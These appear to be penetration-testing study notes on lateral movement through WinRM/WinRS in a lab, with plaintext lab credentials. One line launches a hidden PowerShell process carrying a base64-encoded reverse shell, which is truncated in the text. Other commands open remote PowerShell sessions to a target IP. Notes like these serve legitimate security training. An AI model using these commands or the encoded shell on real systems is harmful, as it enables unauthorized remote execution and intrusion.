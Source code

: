 winRM can be used for remote host management

For WinRS to work, the domain user needs to be part of the Administrators or Remote Management Users group on the target host.

```
winrs -r:files04 -u:jen -p:Nexus123!  "cmd /c hostname & whoami"
```

can also just use the reverse shell from above
```
winrs -r:files04 -u:jen -p:Nexus123!  "powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5AD...
HUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA"
```

powershell also has winRM features
```
PS C:\Users\jeff> $username = 'jen';
PS C:\Users\jeff> $password = 'Nexus123!';
PS C:\Users\jeff> $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
PS C:\Users\jeff> $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

PS C:\Users\jeff> New-PSSession -ComputerName 192.168.50.73 -Credential $credential
```

To interact with the session ID 1 we created, we can issue the Enter-PSSession cmdlet followed by the session ID.
```
Enter-PSSession 1
```
